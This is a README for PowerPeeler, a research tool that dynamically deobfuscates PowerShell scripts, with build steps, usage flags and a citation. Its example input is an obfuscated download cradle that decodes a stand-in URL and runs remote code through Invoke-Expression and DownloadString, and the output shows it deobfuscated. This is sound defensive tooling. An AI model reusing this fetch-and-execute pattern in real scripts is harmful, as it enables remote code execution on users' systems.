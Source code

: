 # PowerPeeler

>A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts

[中文版](README.zh-CN.md)



### Related resources

- conference paper: in coming

  conference-version code please switch to `paper-verion` branch
- full paper: [arxiv](https://arxiv.org/abs/2406.04027)



### Usage

1. Build environment requirement

   - base environment: refer to [PowerShell official build instruction](https://github.com/PowerShell/PowerShell#building-the-repository)
   - .net core 7.0.101
   - pwsh/powershell

2. Runtime environment

   - PSScriptAnalyzer(optional, for code formatting)
   - [Invoke-Deobfuscation](https://gitee.com/snowroll/invoke-deobfuscation)(optional, static and dynamic combination)

3. Get the tool

   ```bash
   git clone https://github.com/zhengbili/PowerPeeler
   ```

   Or

   ```bash
   git clone https://gitee.com/snowroll/powerpeeler
   ```

4. Compile sandbox

   ```powershell
   cd PowerPeeler
   pwsh ./build.ps1
   ```

5. Tool usage

   1. Change the directory to prevent some malicious scripts from polluting the current directory: ```cd sandbox```
   2. Enter special pwsh environments: ```../pwsh```
   3. Execute anti-obfuscation scripts in the special pwsh environment

   ```powershell
   ../Deobfuscation/deob.ps1 --SettingType [Simple|Analysis|SemanticAnalysis]  --InputPath InputFileLocation --OutputPath OutputFileLocation [-cmd] [-log]
   ```
   ​	```-st --SettingType```	deobfuscation mode, with several presets, the code can be modified yourself
   ​	```-ip --InputPath```	input file location
   ​	```-op --OutputPath```	output file location
   ​	```-cmd --IsCmd```	cmd one-line mode
   ​	```-log --SaveLog```	save log



### Example

```../pwsh ../Deobfuscation/deob.ps1 -ip in.ps1 -op out.ps1```

- in.ps1

  ```powershell
  Ie`X ("{2}{0}{1}" -f 'ost h', 'ello', 'write-h')
  $xdjmd  =   'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG'
  $lsffs =   '8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA='
  $sdfs = [Text.Encoding]::Unicode.GetString([Convert]::FromBase64String($xdjmd + $lsffs))
  .($psHoME[4]+$PShOmE[30]+'x') (Ne`W-oB`JeCt Net.Web`C`lient).downloadstring($sdfs)
  ```

- out.ps1

  ```
  Write-Host ([string]'hello')
  $xdjmd = ([string]'aAB0AHQAcABzADoALwAvAHQAZQBzAHQALgBjAG')
  $lsffs = ([string]'8AbQAvAG0AYQBsAHcAYQByAGUALgB0AHgAdAA=')
  $sdfs = ([string]'https://test.com/malware.txt')
  .'Invoke-Expression' (New-Object ([string]'Net.WebClient')).DownloadString(([string]'https://test.com/malware.txt'))
  ```



### Citation format

```
@misc{li2024powerpeelerprecisegeneraldynamic,
      title={PowerPeeler: A Precise and General Dynamic Deobfuscation Method for PowerShell Scripts}, 
      author={Ruijie Li and Chenyang Zhang and Huajun Chai and Lingyun Ying and Haixin Duan and Jun Tao},
      year={2024},
      eprint={2406.04027},
      archivePrefix={arXiv},
      primaryClass={cs.CR},
      url={https://arxiv.org/abs/2406.04027}, 
}
```



